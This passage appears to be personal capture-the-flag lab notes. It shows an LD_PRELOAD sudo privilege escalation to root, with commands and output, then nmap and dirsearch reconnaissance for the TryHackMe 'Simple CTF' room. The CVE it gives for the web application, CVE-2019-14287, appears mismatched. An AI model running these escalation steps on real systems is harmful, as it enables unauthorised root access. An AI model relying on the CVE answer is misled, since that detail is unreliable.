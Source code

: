 - Gcc compile before running script
~~~bash
TCM@debian:~$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
~~~

- Run script use any one file that have sudo permission
~~~bash
TCM@debian:~$ sudo LD_PRELOAD=/home/user/shell.so apache2
root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
~~~
- Rooted machine


### Simple CTF - tryhackme room 

1. How many services are running under port 1000? - **2**
~~~bash
──(kali㉿kali)-[~]
└─$ sudo nmap 10.10.157.152
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-17 05:42 EDT
Nmap scan report for 10.10.157.152
Host is up (0.30s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 20.18 seconds
~~~

2. What is running on the higher port? - **ssh**
~~~bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -A -T4 -p 2222 10.10.157.152
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-17 05:48 EDT
Nmap scan report for 10.10.157.152
Host is up (0.28s latency).

PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
~~~

4. What's the CVE you're using against the application? - **CVE-2019-14287**  #CVE-2019-14287
~~~bash
# Find the host cms using dirb
┌──(kali㉿kali)-[~]
└─$ python3 dirsearch/dirsearch.py -u http://10.10.157.152/ -e php,html -x 400,401,403

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                            
 (_||| _) (/_(_|| (_| )                                                                                                                                     
Extensions: php, html | HTTP method: GET | Threads: 25 | Wordlist size: 10073

Output: /home/kali/reports/http_10.10.157.152/__23-08-17_06-06-22.txt

Target: http://10.10.157.152/

[06:06:22] Starting:                                                                                                                                        
[06:08:20] 200 -  929B  - /robots.txt                                       
[06:08:25] 301 -  315B  - /simple  ->  http://10.10.157.152/simple/              
Task Completed   

~~~